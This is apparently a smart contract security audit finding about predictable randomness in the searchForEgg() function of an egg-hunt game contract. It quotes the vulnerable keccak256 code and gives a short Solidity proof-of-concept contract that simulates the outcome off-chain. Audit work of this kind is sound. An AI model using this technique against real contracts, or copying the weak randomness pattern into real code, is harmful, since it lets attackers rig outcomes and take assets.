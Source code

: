 # Eggstravaganza_Audit_Report

## H-01.The ramdon number generation can be predicted

### Summary

The contract uses an unsafe mechanism for ` searchForEgg() `, which relies on on-chain predictable data. This data can be simulated and calculated off-chain. Attackers can simulate it successfully off-chain before submitting the transaction.



### Vulnerability Details

The vulnerability is located in the ` searchForEgg() ` function of the ` EggHuntGame.sol ` file.

```solidity
function searchForEgg() external {
    ...
    uint256 random = uint256(
        keccak256(abi.encodePacked(block.timestamp, block.prevrandao, msg.sender, eggCounter))
    ) % 100;
    ...
}
```

` block.timestamp ` and ` block.prevrandao ` are known or predictable by the time the transaction is minted;

` msg.sender ` can be controlled by the attacker;

` eggCounter ` is either knownn or easily bruteforceable on-chain.

So the attacker can simulate the result off-chain and the decide whether to call the ` searchForEgg() ` function to successfully mint.



### Proof of Concept

#### Attack's Contract

```solidity
contract Attack{
    function simulate(uint256 timestamp, uint256 prevrandao, address sender, uint256 eggcount, uint256 threshold) public pure returns (bool) {
        uint256 random =  uint256(
            keccak256(
                abi.encodePacked(timestamp, prevrandao, sender, eggcount)
            )
        ) % 100;
        if (random < threshold){
            return true;
        }
        return false;
    }
}
```
